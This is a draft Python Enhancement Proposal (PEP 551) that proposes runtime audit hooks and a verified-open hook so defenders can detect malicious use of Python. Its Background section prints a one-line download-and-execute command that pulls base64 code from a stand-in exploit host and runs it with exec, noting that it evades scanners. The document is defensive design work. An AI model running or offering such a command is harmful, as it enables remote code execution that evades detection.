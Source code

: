PEP: 551
Title: Security transparency in the Python runtime
Version: $Revision$
Last-Modified: $Date$
Author: Steve Dower <steve.dower@python.org>
Status: Draft
Type: Standards Track
Content-Type: text/x-rst
Created: 23-Aug-2017
Python-Version: 3.7
Post-History: 24-Aug-2017 (security-sig)

Abstract
========

This PEP describes additions to the Python API and specific behaviors for the
CPython implementation that make actions taken by the Python runtime visible to
security and auditing tools. The goals in order of increasing importance are to
prevent malicious use of Python, to detect and report on malicious use, and most
importantly to detect attempts to bypass detection. Most of the responsibility
for implementation is required from users, who must customize and build Python
for their own environment.

We propose two small sets of public APIs to enable users to reliably build their
copy of Python without having to modify the core runtime, protecting future
maintainability. We also discuss recommendations for users to help them develop
and configure their copy of Python.

Background
==========

Software vulnerabilities are generally seen as bugs that enable remote or
elevated code execution. However, in our modern connected world, the more
dangerous vulnerabilities are those that enable advanced persistent threats
(APTs). APTs are achieved when an attacker is able to penetrate a network,
establish their software on one or more machines, and over time extract data or
intelligence. Some APTs may make themselves known by maliciously damaging data
(e.g., `WannaCrypt <https://www.microsoft.com/wdsi/threats/malware-encyclopedia-description?Name=Ransom:Win32/WannaCrypt>`_)
or hardware (e.g., `Stuxnet <https://www.microsoft.com/wdsi/threats/malware-encyclopedia-description?name=Win32/Stuxnet>`_).
Most attempt to hide their existence and avoid detection. APTs often use a
combination of traditional vulnerabilities, social engineering, phishing (or
spear-phishing), thorough network analysis, and an understanding of
misconfigured environments to establish themselves and do their work.

The first infected machines may not be the final target and may not require
special privileges. For example, an APT that is established as a
non-administrative user on a developer’s machine may have the ability to spread
to production machines through normal deployment channels. It is common for APTs
to persist on as many machines as possible, with sheer weight of presence making
them difficult to remove completely.

Whether an attacker is seeking to cause direct harm or hide their tracks, the
biggest barrier to detection is a lack of insight. System administrators with
large networks rely on distributed logs to understand what their machines are
doing, but logs are often filtered to show only error conditions. APTs that are
attempting to avoid detection will rarely generate errors or abnormal events.
Reviewing normal operation logs involves a significant amount of effort, though
work is underway by a number of companies to enable automatic anomaly detection
within operational logs. The tools preferred by attackers are ones that are
already installed on the target machines, since log messages from these tools
are often expected and ignored in normal use.

At this point, we are not going to spend further time discussing the existence
of APTs or methods and mitigations that do not apply to this PEP. For further
information about the field, we recommend reading or watching the resources
listed under `Further Reading`_.

Python is a particularly interesting tool for attackers due to its prevalence on
server and developer machines, its ability to execute arbitrary code provided as
data (as opposed to native binaries), and its complete lack of internal logging.
This allows attackers to download, decrypt, and execute malicious code with a
single command::

    python -c "import urllib.request, base64; exec(base64.b64decode(urllib.request.urlopen('http://my-exploit/py.b64')).decode())"

This command currently bypasses most anti-malware scanners that rely on
recognizable code being read through a network connection or being written to
disk (base64 is often sufficient to bypass these checks). It also bypasses
protections such as file access control lists or permissions (no file access
occurs), approved application lists (assuming Python has been approved for other
uses), and automated auditing or logging (assuming Python is allowed to access
the internet or access another machine on the local network from which to obtain
its payload).

General consensus among the security community is that totally preventing
attacks is infeasible and defenders should assume that they will often detect
attacks only after they have succeeded. This is known as the "assume breach"
mindset. [1]_ In this scenario, protections such as sandboxing and input
validation have already failed, and the important task is detection, tracking,
and eventual removal of the malicious code. To this end, the primary feature
required from Python is security transparency: the ability to see what
operations the Python runtime is performing that may indicate anomalous or
malicious use. Preventing such use is valuable, but secondary to the need to
know that it is occurring.

To summarise the goals in order of increasing importance:

* preventing malicious use is valuable
* detecting malicious use is important
* detecting attempts to bypass detection is critical

One example of a scripting engine that has addressed these challenges is
PowerShell, which has recently been enhanced towards similar goals of
transparency and prevention. [2]_

Generally, application and system configuration will determine which events
within a scripting engine are worth logging. However, given the value of many
logs events are not recognized until after an attack is detected, it is
important to capture as much as possible and filter views rather than filtering
at the source (see the No Easy Breach video from above). Events that are always
of interest include attempts to bypass event logging, attempts to load and
execute code that is not correctly signed or access-controlled, use of uncommon
operating system functionality such as debugging or inter-process inspection
tools, most network access and DNS resolution, and attempts to create and hide
files or configuration settings on the local machine.

To summarize, defenders have a need to audit specific uses of Python in order to
detect abnormal or malicious usage. Currently, the Python runtime does not
provide any ability to do this, which (anecdotally) has led to organizations
switching to other languages. The aim of this PEP is to enable system
administrators to deploy a security transparent copy of Python that can
integrate with their existing auditing and protection systems.

On Windows, some specific features that may be enabled by this include:

* Script Block Logging [3]_
* DeviceGuard [4]_
* AMSI [5]_
* Persistent Zone Identifiers [6]_
* Event tracing (which includes event forwarding) [7]_

On Linux, some specific features that may be integrated are:

* gnupg [8]_
* sd_journal [9]_
* OpenBSM [10]_
* syslog [11]_
* auditd [12]_
* check execute bit on imported modules


On macOS, some features that may be used with the expanded APIs are:

* OpenBSM [10]_
* syslog [11]_

Overall, the ability to enable these platform-specific features on production
machines is highly appealing to system administrators and will make Python a
more trustworthy dependency for application developers.


Overview of Changes
===================

True security transparency is not fully achievable by Python in isolation. The
runtime can log as many events as it likes, but unless the logs are reviewed and
analyzed there is no value. Python may impose restrictions in the name of
security, but usability may suffer. Different platforms and environments will
require different implementations of certain security features, and
organizations with the resources to fully customize their runtime should be
encouraged to do so.

The aim of these changes is to enable system administrators to integrate Python
into their existing security systems, without dictating what those systems look
like or how they should behave. We propose two API changes to enable this: an
Event Log Hook and Verified Open Hook. Both are not set by default, and both
require modifying the appropriate entry point to enable any functionality. For
the purposes of validation and example, we propose a new spython/spython.exe
entry point program that enables some basic functionality using these hooks.
However, the expectation is that security-conscious organizations will create
their own entry points to meet their needs.

Event Log Hook
--------------

In order to achieve security transparency, an API is required to raise messages
from within certain operations. These operations are typically deep within the
Python runtime or standard library, such as dynamic code compilation, module
imports, DNS resolution, or use of certain modules such as ``ctypes``.

The new APIs required for log hooks are::

   # Add a logging hook
   sys.addloghook(hook: Callable[str, tuple]) -> None
   int PySys_AddLogHook(int (*hook)(const char *event, PyObject *args));

   # Raise an event with all logging hooks
   sys.loghook(str, *args) -> None
   int PySys_LogHook(const char *event, PyObject *args);

   # Internal API used during Py_Finalize() - not publicly accessible
   void _Py_ClearLogHooks(void);

Hooks are added by calling ``PySys_AddLogHook()`` from C at any time, including
before ``Py_Initialize()``, or by calling ``sys.addloghook()`` from Python code.
Hooks are never removed or replaced, and existing hooks have an opportunity to
refuse to allow new hooks to be added (adding a logging hook is logged, and so
preexisting hooks can raise an exception to block the new addition).

When events of interest are occurring, code can either call ``PySys_LogHook()``
from C (while the GIL is held) or ``sys.loghook()``. The string argument is the
name of the event, and the tuple contains arguments. A given event name should
have a fixed schema for arguments, and both arguments are considered a public
API (for a given x.y version of Python), and thus should only change between
feature releases with updated documentation.

When an event is logged, each hook is called in the order it was added with the
event name and tuple. If any hook returns with an exception set, later hooks are
ignored and *in general* the Python runtime should terminate. This is
intentional to allow hook implementations to decide how to respond to any
particular event. The typical responses will be to log the event, abort the
operation with an exception, or to immediately terminate the process with an
operating system exit call.

When an event is logged but no hooks have been set, the ``loghook()`` function
should include minimal overhead. Ideally, each argument is a reference to
existing data rather than a value calculated just for the logging call.

As hooks may be Python objects, they need to be freed during ``Py_Finalize()``.
To do this, we add an internal API ``_Py_ClearLogHooks()`` that releases any
``PyObject*`` hooks that are held, as well as any heap memory used. This is an
internal function with no public export, but it passes an event to all existing
hooks to ensure that unexpected calls are logged.

See `Log Hook Locations`_ for proposed log hook points and schemas, and the
`Recommendations`_ section for discussion on appropriate responses.

Verified Open Hook
------------------

Most operating systems have a mechanism to distinguish between files that can be
executed and those that can not. For example, this may be an execute bit in the
permissions field, or a verified hash of the file contents to detect potential
code tampering. These are an important security mechanism for preventing
execution of data or code that is not approved for a given environment.
Currently, Python has no way to integrate with these when launching scripts or
importing modules.

The new public API for the verified open hook is::

   # Set the handler
   int Py_SetOpenForExecuteHandler(PyObject *(*handler)(const char *narrow, const wchar_t *wide))

   # Open a file using the handler
   os.open_for_exec(pathlike)

The ``os.open_for_exec()`` function is a drop-in replacement for
``open(pathlike, 'rb')``. Its default behaviour is to open a file for raw,
binary access - any more restrictive behaviour requires the use of a custom
handler. (Aside: since ``importlib`` requires access to this function before the
``os`` module has been imported, it will be available on the ``nt``/``posix``
modules, but the intent is that other users will access it through the ``os``
module.)

A custom handler may be set by calling ``Py_SetOpenForExecuteHandler()`` from C
at any time, including before ``Py_Initialize()``. When ``open_for_exec()`` is
called with a handler set, the handler will be passed the processed narrow or
wide path, depending on platform, and its return value will be returned
directly. The returned object should be an open file-like object that supports
reading raw bytes. This is explicitly intended to allow a ``BytesIO`` instance
if the open handler has already had to read the file into memory in order to
perform whatever verification is necessary to determine whether the content is
permitted to be executed.

Note that these handlers can import and call the ``_io.open()`` function on
CPython without triggering themselves.

If the handler determines that the file is not suitable for execution, it should
raise an exception of its choice, as well as performing any other logging or
notifications.

All import and execution functionality involving code from a file will be
changed to use ``open_for_exec()`` unconditionally. It is important to note that
calls to ``compile()``, ``exec()`` and ``eval()`` do not go through this
function - a log hook that includes the code from these calls will be added and
is the best opportunity to validate code that is read from the file. Given the
current decoupling between import and execution in Python, most imported code
will go through both ``open_for_exec()`` and the log hook for ``compile``, and
so care should be taken to avoid repeating verification steps.

API Availability
----------------

While all the functions added here are considered public and stable API, the
behavior of the functions is implementation specific. The descriptions here
refer to the CPython implementation, and while other implementations should
provide the functions, there is no requirement that they behave the same.

For example, ``sys.addloghook()`` and ``sys.loghook()`` should exist but may do
nothing. This allows code to make calls to ``sys.loghook()`` without having to
test for existence, but it should not assume that its call will have any effect.
(Including existence tests in security-critical code allows another vector to
bypass logging, so it is preferable that the function always exist.)

``os.open_for_exec()`` should at a minimum always return ``_io.open(pathlike,
'rb')``. Code using the function should make no further assumptions about what
may occur, and implementations other than CPython are not required to let
developers override the behavior of this function with a hook.


Log Hook Locations
==================

Calls to ``sys.loghook()`` or ``PySys_LogHook()`` will be added to the following
operations with the schema in Table 1. Unless otherwise specified, the ability
for log hooks to abort any listed operation should be considered part of the
rationale for including the hook.

.. csv-table:: Table 1: Log Hooks
   :header: "API Function", "Event Name", "Arguments", "Rationale"
   :widths: 2, 2, 3, 6
   
   ``PySys_AddLogHook``, ``sys.addloghook``, "", "Detect when new log hooks are
   being added."
   ``_PySys_ClearLogHooks``, ``sys._clearloghooks``, "", "Notifies hooks they
   are being cleaned up, mainly in case the event is triggered unexpectedly.
   This event cannot be aborted."
   ``Py_SetOpenForExecuteHandler``, ``setopenforexecutehandler``, "", "Detects
   any attempt to set the ``open_for_execute`` handler."
   "``compile``, ``exec``, ``eval``, ``PyAst_CompileString``", ``compile``, "
   ``(code, filename_or_none)``", "Detect dynamic code compilation. Note that
   this will also be called for regular imports of source code, including those
   that used ``open_for_exec``."
   ``import``, ``import``, "``(module, filename, sys.path, sys.meta_path,
   sys.path_hooks)``", "Detect when modules are imported. This is raised before
   the module name is resolved to a file. All arguments other than the module
   name may be ``None`` if they are not used or available."
   "``_ctypes.dlopen``, ``_ctypes.LoadLibrary``", ``ctypes.dlopen``, "
   ``(module_or_path,)``", "Detect when native modules are used."
   ``_ctypes._FuncPtr``, ``ctypes.dlsym``, "``(lib_object, name)``", "Collect
   information about specific symbols retrieved from native modules."
   ``_ctypes._CData``, ``ctypes.cdata``, "``(ptr_as_int,)``", "Detect when code
   is accessing arbitrary memory using ``ctypes``"
   ``id``, ``id``, "``(id_as_int,)``", "Detect when code is accessing the id of
   objects, which in CPython reveals information about memory layout."
   ``sys._getframe``, ``sys._getframe``, "``(frame_object,)``", "Detect when
   code is accessing frames directly"
   ``sys._current_frames``, ``sys._current_frames``, "", "Detect when code is
   accessing frames directly"
   ``PyEval_SetProfile``, ``sys.setprofile``, "", "Detect when code is injecting
   trace functions. Because of the implementation, exceptions raised from the
   hook will abort the operation, but will not be raised in Python code. Note
   that ``threading.setprofile`` eventually calls this function, so the event
   will be logged for each thread."
   ``PyEval_SetTrace``, ``sys.settrace``, "", "Detect when code is injecting
   trace functions. Because of the implementation, exceptions raised from the
   hook will abort the operation, but will not be raised in Python code. Note
   that ``threading.settrace`` eventually calls this function, so the event
   will be logged for each thread."
   ``_PyEval_SetAsyncGenFirstiter``, ``sys.set_async_gen_firstiter``, "", "
   Detect changes to async generator hooks."
   ``_PyEval_SetAsyncGenFinalizer``, ``sys.set_async_gen_finalizer``, "", "
   Detect changes to async generator hooks."
   ``_PyEval_SetCoroutineWrapper``, ``sys.set_coroutine_wrapper``, "", "Detect
   changes to the coroutine wrapper."
   ``Py_SetRecursionLimit``, ``sys.setrecursionlimit``, "``(new_limit,)``", "
   Detect changes to the recursion limit."
   ``_PyEval_SetSwitchInterval``, ``sys.setswitchinterval``, "``(interval_us,)``
   ", "Detect changes to the switching interval."
   "``socket.bind``, ``socket.connect``, ``socket.connect_ex``,
   ``socket.getaddrinfo``, ``socket.getnameinfo``, ``socket.sendmsg``,
   ``socket.sendto``", ``socket.address``, "``(address,)``", "Detect access to
   network resources. The address is unmodified from the original call."
   ``socket.__init__``, "socket()", "``(family, type, proto)``", "Detect
   creation of sockets. The arguments will be int values."
   ``socket.gethostname``, ``socket.gethostname``, "", "Detect attempts to
   retrieve the current host name."
   ``socket.sethostname``, ``socket.sethostname``, "``(name,)``", "Detect
   attempts to change the current host name. The name argument is passed as a
   bytes object."
   "``socket.gethostbyname``, ``socket.gethostbyname_ex``", "
   ``socket.gethostbyname``", "``(name,)``", "Detect host name resolution. The
   name argument is a str or bytes object."
   ``socket.gethostbyaddr``, ``socket.gethostbyaddr``, "``(address,)``", "Detect
   host resolution. The address argument is a str or bytes object."
   ``socket.getservbyname``, ``socket.getservbyname``, "``(name, protocol)``", "
   Detect service resolution. The arguments are str objects."
   ``socket.getservbyport``, ``socket.getservbyport``, "``(port, protocol)``", "
   Detect service resolution. The port argument is an int and protocol is a
   str."

TODO - more hooks in ``_socket``, ``_ssl``, others?


SPython Entry Point
===================

A new entry point binary will be added, called ``spython.exe`` on Windows and
``spythonX.Y`` on other platforms. This entry point is intended primarily as an
example, as we expect most users of this functionality to implement their own
entry point and hooks (see `Recommendations`_). It will also be used for tests.

Source builds will create ``spython`` by default, but distributors may choose
whether to include ``spython`` in their pre-built packages. The python.org
managed binary distributions will not include ``spython``.

**Do not accept most command-line arguments**

The ``spython`` entry point requires a script file be passed as the first
argument, and does not allow any options. This prevents arbitrary code execution
from in-memory data or non-script files (such as pickles, which can be executed
using ``-m pickle <path>``.

Options ``-B`` (do not write bytecode), ``-E`` (ignore environment variables)
and ``-s`` (no user site) are assumed.

If a file with the same full path as the process with a ``._pth`` suffix
(``spython._pth`` on Windows, ``spythonX.Y._pth`` on Linux) exists, it will be
used to initialize ``sys.path`` following the rules currently described `for
Windows <https://docs.python.org/3/using/windows.html#finding-modules>`_.

When built with ``Py_DEBUG``, the ``spython`` entry point will allow a ``-i``
option with no other arguments to enter into interactive mode, with log messages
being written to standard error rather than a file. This is intended for testing
and debugging only.

**Log security events to a file**

Before initialization, ``spython`` will set a log hook that writes events to a
local file. By default, this file is the full path of the process with a
``.log`` suffix, but may be overridden with the ``SPYTHONLOG`` environment
variable (despite such overrides being explicitly discouraged in
`Recommendations`_).

The log hook will also abort all ``addloghook`` events, preventing any other
hooks from being added.

On Windows, code from ``compile`` events will submitted to AMSI [5]_ and if it
fails to validate, the compile event will be aborted. This can be tested by
calling ``compile()`` or ``eval()`` on the contents of the `EICAR test file
<http://www.eicar.org/86-0-Intended-use.html>`_.

**Restrict importable modules**

Also before initialization, ``spython`` will set an open-for-execute hook that
validates all files opened with ``os.open_for_exec``. This implementation will
require all files to have a ``.py`` suffix (thereby blocking the use of cached
bytecode), and will raise a custom log message ``spython.open_for_exec``
containing ``(filename, True_if_allowed)``.

On Windows, the hook will also open the file with flags that prevent any other
process from opening it with write access, which allows the hook to perform
additional validation on the contents with confidence that it will not be
modified between the check and use. Compilation will later trigger a ``compile``
event, so there is no need to read the contents now for AMSI, but other
validation mechanisms such as DeviceGuard [4]_ should be performed here.


Performance Impact
==================

**TODO**

Full impact analysis still requires investigation. Preliminary testing shows
that calling ``sys.loghook`` with no hooks added does not significantly affect
any existing benchmarks, though targeted microbenchmarks can observe an impact.

Performance impact using ``spython`` or with hooks added are not of interest
here, since this is considered opt-in functionality.


Recommendations
===============

Specific recommendations are difficult to make, as the ideal configuration for
any environment will depend on the user's ability to manage, monitor, and
respond to activity on their own network. However, many of the proposals here do
not appear to be of value without deeper illustration. This section provides
recommendations using the terms **should** (or **should not**), indicating that
we consider it dangerous to ignore the advice, and **may**, indicating that for
the advice ought to be considered for high value systems. The term **sysadmins**
refers to whoever is responsible for deploying Python throughout your network;
different organizations may have an alternative title for the responsible
people.

Sysadmins **should** build their own entry point, likely starting from the
``spython`` source, and directly interface with the security systems available
in their environment. The more tightly integrated, the less likely a
vulnerability will be found allowing an attacker to bypass those systems. In
particular, the entry point **should not** obtain any settings from the current
environment, such as environment variables, unless those settings are otherwise
protected from modification.

Log messages **should not** be written to a local file. The ``spython`` entry
point does this for example and testing purposes. On production machines, tools
such as ETW [7]_ or auditd [12]_ that are intended for this purpose should be
used.

The default ``python`` entry point **should not** be deployed to production
machines, but could be given to developers to use and test Python on
non-production machines. Sysadmins **may** consider deploying a less restrictive
version of their entry point to developer machines, since any system connected
to your network is a potential target.

Python deployments **should** be made read-only using any available platform
functionality after deployment and during use.

On platforms that support it, sysadmins **should** include signatures for every
file in a Python deployment, ideally verified using a private certificate. For
example, Windows supports embedding signatures in executable files and using
catalogs for others, and can use DeviceGuard [4]_ to validate signatures either
automatically or using an ``open_for_exec`` hook.

Sysadmins **should** collect as many logged events as possible, and **should**
copy them off of local machines frequently. Even if logs are not being
constantly monitored for suspicious activity, once an attack is detected it is
too late to enable logging. Log hooks **should not** attempt to preemptively
filter events, as even benign events are useful when analyzing the progress of
an attack. (Watch the "No Easy Breach" video under `Further Reading`_ for a
deeper look at this side of things.)

Log hooks **should** write events to logs before attempting to abort. As
discussed earlier, it is more important to record malicious actions than to
prevent them.

Most actions **should not** be aborted if they could ever occur during normal
use or if preventing them will encourage attackers to work around them. As
described earlier, awareness is a higher priority than prevention. Sysadmins
**may** audit their Python code and abort operations that are known to never be
used deliberately.

On production machines, the first log hook **should** be set in C code before
``Py_Initialize`` is called, and that hook **should** unconditionally abort the
``sys.addloghook`` event. The Python interface is mainly useful for testing.

To prevent log hooks being added on non-production machines, the entry point
**may** add a log hook that aborts the ``sys.addloghook`` event but otherwise
does nothing.

On production machines, a non-validating ``open_for_exec`` hook **may** be set
in C code before ``Py_Initialize`` is called. This prevents later code from
overriding the hook, however, logging the ``setopenforexecutehandler`` event is
useful since no code should ever need to call it. Using at least the sample
``open_for_exec`` hook implementation from ``spython`` is recommended.

[TODO: more good advice; less bad advice]

Further Reading
===============


**Redefining Malware: When Old Terms Pose New Threats**
    By Aviv Raff for SecurityWeek, 29th January 2014

    This article, and those linked by it, are high-level summaries of the rise of
    APTs and the differences from "traditional" malware.

    `<http://www.securityweek.com/redefining-malware-when-old-terms-pose-new-threats>`_

**Anatomy of a Cyber Attack**
    By FireEye, accessed 23rd August 2017

    A summary of the techniques used by APTs, and links to a number of relevant
    whitepapers.

    `<https://www.fireeye.com/current-threats/anatomy-of-a-cyber-attack.html>`_

**Automated Traffic Log Analysis: A Must Have for Advanced Threat Protection**
    By Aviv Raff for SecurityWeek, 8th May 2014

    High-level summary of the value of detailed logging and automatic analysis.

    `<http://www.securityweek.com/automated-traffic-log-analysis-must-have-advanced-threat-protection>`_

**No Easy Breach: Challenges and Lessons Learned from an Epic Investigation**
    Video presented by Matt Dunwoody and Nick Carr for Mandiant at SchmooCon 2016

    Detailed walkthrough of the processes and tools used in detecting and removing
    an APT.

    `<https://archive.org/details/No_Easy_Breach>`_

**Disrupting Nation State Hackers**
    Video presented by Rob Joyce for the NSA at USENIX Enigma 2016

    Good security practices, capabilities and recommendations from the chief of
    NSA's Tailored Access Operation.

    `<https://www.youtube.com/watch?v=bDJb8WOJYdA>`_

References
==========

.. [1] Assume Breach Mindset, `<http://asian-power.com/node/11144>`_

.. [2] PowerShell Loves the Blue Team, also known as Scripting Security and
   Protection Advances in Windows 10, `<https://blogs.msdn.microsoft.com/powershell/2015/06/09/powershell-the-blue-team/>`_

.. [3] `<https://www.fireeye.com/blog/threat-research/2016/02/greater_visibilityt.html>`_

.. [4] `<https://aka.ms/deviceguard>`_

.. [5] AMSI, `<https://msdn.microsoft.com/en-us/library/windows/desktop/dn889587(v=vs.85).aspx>`_

.. [6] Persistent Zone Identifiers, `<https://msdn.microsoft.com/en-us/library/ms537021(v=vs.85).aspx>`_

.. [7] Event tracing, `<https://msdn.microsoft.com/en-us/library/aa363668(v=vs.85).aspx>`_

.. [8] `<https://www.gnupg.org/>`_

.. [9] `<https://www.systutorials.com/docs/linux/man/3-sd_journal_send/>`_

.. [10] `<http://www.trustedbsd.org/openbsm.html>`_

.. [11] `<https://linux.die.net/man/3/syslog>`_

.. [12] `<http://security.blogoverflow.com/2013/01/a-brief-introduction-to-auditd/>`_

Acknowledgments
===============

Thanks to all the people from Microsoft involved in helping make the Python
runtime safer for production use, and especially to James Powell for doing much
of the initial research, analysis and implementation, Lee Holmes for invaluable
insights into the info-sec field and PowerShell's responses, and Brett Cannon
for the grounding discussions.

Copyright
=========

Copyright (c) 2017 by Microsoft Corporation. This material may be distributed
only subject to the terms and conditions set forth in the Open Publication
License, v1.0 or later (the latest version is presently available at
http://www.opencontent.org/openpub/).
